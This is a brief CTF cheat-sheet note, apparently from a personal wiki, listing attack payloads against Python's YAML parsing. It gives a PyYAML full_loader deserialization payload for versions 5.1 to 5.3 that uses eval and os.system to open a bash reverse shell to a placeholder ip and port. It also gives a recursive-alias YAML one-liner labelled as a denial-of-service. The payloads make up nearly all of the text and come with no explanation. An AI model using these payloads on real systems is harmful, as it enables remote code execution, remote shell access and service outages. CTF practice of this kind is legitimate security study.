 tags:: CTF/Python

- # payload
	- 针对5.1 ~ 5.3版本的full_loader函数
		- ```yaml
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  ```
- # DDoS
	- `{a: &b [*b]}`